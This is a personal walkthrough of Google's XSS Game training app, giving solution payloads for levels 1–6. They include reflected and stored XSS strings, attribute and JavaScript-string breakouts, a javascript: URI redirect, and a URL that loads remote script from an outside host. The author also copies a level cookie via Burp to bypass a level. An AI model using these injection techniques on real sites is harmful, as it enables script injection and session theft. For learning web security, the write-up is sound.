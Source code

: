# Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```code
level1=f148716ef4ed1ba0f192cde4618f8dc5;
level2=b5e530302374aa71cc3028c810b63641;
level3=d5ce029d0680b3816a349da0d055fcfa;
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## [Level 4](https://xss-game.appspot.com/level4)

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## Level 5
I got through Level 5 with this URL:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
But clicking the Go button next to the URL did not work. I had to actually click the "Next >>" button. That button, if you mouse over it, showed that it's target was:
```
javascript:alert(1)
```

By me having edited the URL manually, that button's href value had changed to my input.


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/

